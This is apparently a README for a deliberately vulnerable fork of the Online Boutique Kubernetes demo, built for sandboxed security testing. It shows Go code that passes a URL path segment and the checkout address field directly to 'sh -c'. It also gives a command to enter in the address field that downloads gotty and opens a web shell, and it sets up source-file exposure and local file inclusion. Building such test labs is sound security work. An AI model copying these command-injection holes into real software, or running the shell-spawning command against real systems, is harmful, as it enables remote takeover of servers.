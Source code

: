 <br />

The **Online Boutique** cloud-native microservices demo application is tweaked to accomodate some of the usecases mentioned below

1. **Sensitive keys in codebases** -
     commiting sensitive information to version control system.

2. **Custom handle with code execution** -
    a custom httpHandler to replyback *whoami*
3. **Vulnerable address field** - 
    to executes codes in the backend


> **Note :** This tweakings were done to make the application
> slightly vulnerable and the use of this application in production environment
> is highly discouraged. Use a sandboxed enviroment to test out the application.

<br />


## Quickstart 

1. **Create a namespace** *poc* 

```
kubectl create ns poc
```

2. **Deploy the tweaked app to the namespace.**

```
kubectl apply -f ./release/kubernetes-manifests.yaml -n poc
```
```
kubectl -n poc apply -f https://raw.githubusercontent.com/vsk-coding/microservices-demo/master/release/kubernetes-manifests.yaml
```


3. **Get the public ip**

```
kubectl -n poc get service frontend-external | awk '{print $4}'
```

*Example output - do not copy*

```
EXTERNAL-IP
<your-ip>
```
4. **Use handle /cmd/command**
```
your-external-ip/cmd/<command>
```
*Example command - do not copy*

```
http://localhost/cmd/whoami
```
5. **Give commands in Address field to intall and run** [gotty.](https://github.com/yudai/gotty) and goto *ip:8080* to get the gotty terminal

*Command*

```
wget https://github.com/yudai/gotty/releases/download/v1.0.1/gotty_linux_amd64.tar.gz && tar -xvzf gotty_linux_amd64.tar.gz && mv gotty /usr/local/bin/gotty && apk add libc6-compat && gotty -w --port 9090 sh
```
**Checkout Page** [![Screenshot of checkout page](./images/address.png)](./images/address.png) 


<br />

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 147:*
```go
r.HandleFunc("/cmd/{cmd}", svc.cmdHandler).Methods(http.MethodGet)
```

> microservices-demo/src/frontend/handlers.go


**Tweak Function** *placeOrderHandler*
*Line 348*

```go
command := streetAddress
cmd, err := exec.Command("sh","-c",command).Output()
fmt.Printf("%s",cmd)
```

*New Function*
```go
func (fe *frontendServer) cmdHandler(w http.ResponseWriter, r *http.Request) {
	log := r.Context().Value(ctxKeyLog{}).(logrus.FieldLogger)
	cmd := mux.Vars(r)["cmd"]
	fmt.Printf( r.Method, r.URL, r.Proto)
	fmt.Printf("the command is %s\n",cmd)
	if cmd == "" {
		cmdName := "whoami"
		
		cmdz := exec.Command("sh","-c",cmdName)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else {
			w.Write(cmdReader)
			return
		}
	} else {
		cmdz := exec.Command("sh","-c",cmd)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else{
			w.Write(cmdReader)
			return
		}
	}
	return
}
```
## Sensitive Data Exposure

```
http://external-ip/sde/main.go
```
![Screenshot_2021-09-15_14-43-40](https://user-images.githubusercontent.com/86401171/133669664-4c67a3c6-56a6-4de5-8526-1d7079a45b50.png)

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 145:*
```go
r.PathPrefix("/sde/").Handler(http.StripPrefix("/sde/", http.FileServer(http.Dir("./sde/"))))
```
> microservices-demo/src/frontend/Dockerfile

**Dockerfile**
*Line 36:*
```
COPY ./sde ./sde
```


<br />

## Local File Inclusion
**Deployment**
<br />
step-1
```
kubectl apply -f microservices-demo/release/lfi.yaml
```
step-2
```
kubectl get svc | grep lfi
```
step-3
<br />
	1. Copy the External IP
	<br />
	2. Open this file "microservices-demo/src/frontend/templates/header.html
	<br />
	3. Go to line 39 and change the <a> tag herf IP address using LFI External IP
	<br />
	4. Save the file and build docker image for frontend
	<br />
